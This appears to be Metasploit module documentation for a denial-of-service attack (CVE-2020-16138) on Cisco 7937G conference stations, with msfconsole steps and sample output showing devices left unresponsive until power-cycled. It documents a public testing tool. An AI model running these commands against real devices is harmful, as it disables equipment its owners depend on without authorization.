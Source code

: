 ## Vulnerable Application

  [Cisco 7937G](https://www.cisco.com/c/en/us/support/collaboration-endpoints/unified-ip-conference-station-7937g/model.html) Conference Station.
  This module has been tested successfully against firmware versions SCCP-1-4-5-5 and SCCP-1-4-5-7.

### Description

This module exploits a bug in how the conference station handles incoming SSH connections that provide an incompatible key exchange. By connecting with an incompatible key exchange, the device becomes nonresponsive until it is manually power cycled.

## Verification Steps

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable SSH Access on the device.
  3. Start msfconsole
  4. Do: `use auxiliary/dos/cisco/cve_2020_16138`
  5. Do: `set RHOST 192.168.1.10`
  6. Do: `run`
  7. The conference station should now be nonresponsive until it is power cycled

## Scenarios

### Cisco 7937G Running Firmware Version SCCP-1-4-5-7

#### Successful Scenario:
```
msf5 > use auxiliary/dos/cisco/cve_2020_16138 
msf5 auxiliary(dos/cisco/cve_2020_16138) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cve_2020_16138) > run

[*] Starting server...
[*] 192.168.110.209 - Connected (version 2.0, client OpenSSH_4.3)
[-] 192.168.110.209 - Exception: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - Traceback (most recent call last):
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2083, in run
[-] 192.168.110.209 -     self._handler_table[ptype](self, m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2198, in _negotiate_keys
[-] 192.168.110.209 -     self._parse_kex_init(m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2354, in _parse_kex_init
[-] 192.168.110.209 -     raise SSHException(
[-] 192.168.110.209 - paramiko.ssh_exception.SSHException: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - 
[*] 192.168.110.209 - DoS non-reset attack completed!
[*] 192.168.110.209 - Errors are intended.
[*] 192.168.110.209 - Device must be power cycled to restore functionality.
[*] Auxiliary module execution completed
```

#### Unsuccessful Scenario:
```
msf5 > use auxiliary/dos/cisco/cve_2020_16138 
msf5 auxiliary(dos/cisco/cve_2020_16138) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cve_2020_16138) > run

[*] Starting server...
[-] 192.168.110.209 - Device doesn't appear to be functioning (already DoS'd?) or SSH is not enabled.
[*] Auxiliary module execution completed
```

### Cisco 7937G Running Firmware Version SCCP-1-4-5-5

#### Successful Scenario:
```
msf5 > use auxiliary/dos/cisco/cve_2020_16138 
msf5 auxiliary(dos/cisco/cve_2020_16138) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cve_2020_16138) > run

[*] Starting server...
[*] 192.168.110.209 - Connected (version 2.0, client OpenSSH_4.3)
[-] 192.168.110.209 - Exception: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - Traceback (most recent call last):
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2083, in run
[-] 192.168.110.209 -     self._handler_table[ptype](self, m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2198, in _negotiate_keys
[-] 192.168.110.209 -     self._parse_kex_init(m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2354, in _parse_kex_init
[-] 192.168.110.209 -     raise SSHException(
[-] 192.168.110.209 - paramiko.ssh_exception.SSHException: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - 
[*] 192.168.110.209 - DoS non-reset attack completed!
[*] 192.168.110.209 - Errors are intended.
[*] 192.168.110.209 - Device must be power cycled to restore functionality.
[*] Auxiliary module execution completed
```

#### Unsuccessful Scenario:
```
msf5 > use auxiliary/dos/cisco/cve_2020_16138 
msf5 auxiliary(dos/cisco/cve_2020_16138) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cve_2020_16138) > run

[*] Starting server...
[-] 192.168.110.209 - Device doesn't appear to be functioning (already DoS'd?) or SSH is not enabled.
[*] Auxiliary module execution completed
```
